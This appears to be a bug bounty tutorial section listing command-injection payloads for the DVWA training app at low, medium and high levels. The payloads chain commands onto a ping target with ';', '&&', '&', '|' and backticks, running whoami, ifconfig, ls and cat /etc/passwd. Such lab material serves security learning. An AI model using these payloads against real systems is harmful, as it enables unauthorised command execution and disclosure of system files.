 # bug-bounty-tutorial
bug bounty tutorial

## 7.command injection
```
ping -c4 127.0.0.1; ls
ping -c4 127.0.0.1 && ls

127.0.0.1; cat /etc/passwd
127.0.0.1; cat index.php
127.0.0.1; whoami; hostname; ifconfig; ls ../
127.0.0.1; echo 'hacked'
```

## medium
```
127.0.0.1 & whoami & hostname & ifconfig & ls ../
```

## high

### in cmd
```
echo $(ls)
`whoami`
```

### in dvwa
```
127.0.0.1|ls
```
